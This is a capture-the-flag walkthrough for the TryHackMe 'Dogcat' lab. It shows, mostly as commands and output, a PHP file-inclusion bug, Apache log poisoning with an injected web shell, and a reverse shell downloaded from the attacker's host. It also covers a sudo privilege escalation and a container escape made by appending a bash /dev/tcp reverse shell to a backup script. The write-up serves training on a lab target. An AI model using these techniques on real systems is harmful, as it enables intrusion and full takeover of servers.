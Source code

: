 # TryHackMe: Dogcat

https://tryhackme.com/room/dogcat

The initial nmap scan reveals nothing unusual.  A web server and SSH:
```
┌──(kali㉿kali)-[~/tryhackme/dogcat]
└─$ rustscan -a 10.10.113.229 -r 1-65535 -- -sV

...

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

A directory search reveals a directory for both dogs and cats.  Unfortunately we cannot access the directories directly, we get a 403.
```
┌──(kali㉿kali)-[~/tryhackme/dogcat]
└─$ sudo feroxbuster -u http://10.10.113.229 -w /usr/share/wordlists/dirb/big.txt 

301        9l       28w      313c http://10.10.113.229/cats
301        9l       28w      313c http://10.10.113.229/dogs
403        9l       28w      278c http://10.10.113.229/server-status
```

The website itself is just a page with two buttons, to see a dog or a cat.  The buttons add a parameter to the URL.  There is no javascript, so this is probably utilizing some PHP code to load files from the /cats and /dogs directories.
```
<a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
```

Manually setting the parameter to something else results in the message "Sorry, only dogs or cats are allowed."

---
## Flag 1

Knowing PHP is involved, we re-run feroxbuster with the php extension and found matching files, when browsing directly to them they display a random cat or dog image.
```
┌──(kali㉿kali)-[~/tryhackme/dogcat]
└─$ sudo feroxbuster -u http://10.10.113.229 -w /usr/share/wordlists/dirb/big.txt -x php
```

This also revealed a flag.php file.  Browsing directly shows us nothing. Trying the ?view=flag parameter still gets stopped by the PHP logic.

We can use PHP filters to get the code from flag.php encoded in base64.

`http://10.10.113.229/?view=php://filter/read=convert.base64-encode/resource=./dog/../flag`

This reveals flag 1 when decoded.

---
## Flag 2

We can similarly get the index.php code with the same method.

`http://10.10.113.229/?view=php://filter/read=convert.base64-encode/resource=./dog/../index`

```
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
```

Reading through this code we can see two key items.

1. Our parameter needs to have the string 'dog' or 'cat' in it.
2. We can use the additional parameter 'ext' to control the extension (or lack thereof)

This can be confirmed by displaying /etc/passwd

`http://10.10.113.229/?view=./dog/../../../../etc/passwd&ext`

Since this server is running Apache with PHP and we can load other files from the server in our browser, it is likely that we can perform log poisoning and run our own PHP code.

Here we can verify we have access to the log:

`http://10.10.113.229/?view=./dog/../../../../var/log/apache2/access.log&ext`

Our PHP script we are injecting via headers and a curl command (had to escape the $, was getting a strange error):

```
curl -H "User-Agent: <?php system(\$_GET['cmd']);?>" http://10.10.113.229
```

Verify with this (and search for www-data)

`http://10.10.113.229/?view=./dog/../../../../var/log/apache2/access.log&ext&cmd=whoami`

Grabbed a php reverse shell from https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

Changed the IP to attacker

Used python http server and our poisoned log to upload:

```
┌──(kali㉿kali)-[~/tryhackme/dogcat]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
Browse or Curl:
`http://10.10.113.229/?view=./dog/../../../../var/log/apache2/access.log&ext&cmd=curl%20-o%20shell.php%20http://10.13.18.7:8000/php-reverse-shell.php`
```
┌──(kali㉿kali)-[~/tryhackme/dogcat]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
```
Browse or Curl:
`http://10.10.113.229/shell.php`
```
┌──(kali㉿kali)-[~/tryhackme/dogcat]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.13.18.7] from (UNKNOWN) [10.10.113.229] 49918
Linux 7d96d51ea451 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 GNU/Linux
 03:25:12 up  1:54,  0 users,  load average: 0.01, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
browsing to /var/www reveals the 2nd flag

---
## Flag 3

Checking sudo permissions shows an easily exploitable binary https://gtfobins.github.io/gtfobins/env/#sudo
```
$ sudo -l
Matching Defaults entries for www-data on 7d96d51ea451:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 7d96d51ea451:
    (root) NOPASSWD: /usr/bin/env
```

This gets us root access, and Flag 3 is in /root


---
## Flag 4

The room mentioned breaking out of a container, so that's what we have to do to get the last flag.

There is a backup script in /opt/backups that is run on the parent box.  By altering this script we can get another reverse shell to the parent.

```
cd /opt/backups
echo "/bin/bash -c 'bash -i >& /dev/tcp/10.13.18.7/4444 0>&1'" >> backup.sh
```

Catch it and get the flag

```
┌──(kali㉿kali)-[~/tryhackme/dogcat]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.13.18.7] from (UNKNOWN) [10.10.113.229] 43432
bash: cannot set terminal process group (8055): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@dogcat:~# pwd
pwd
/root
root@dogcat:~# ls
ls
container
flag4.txt
```

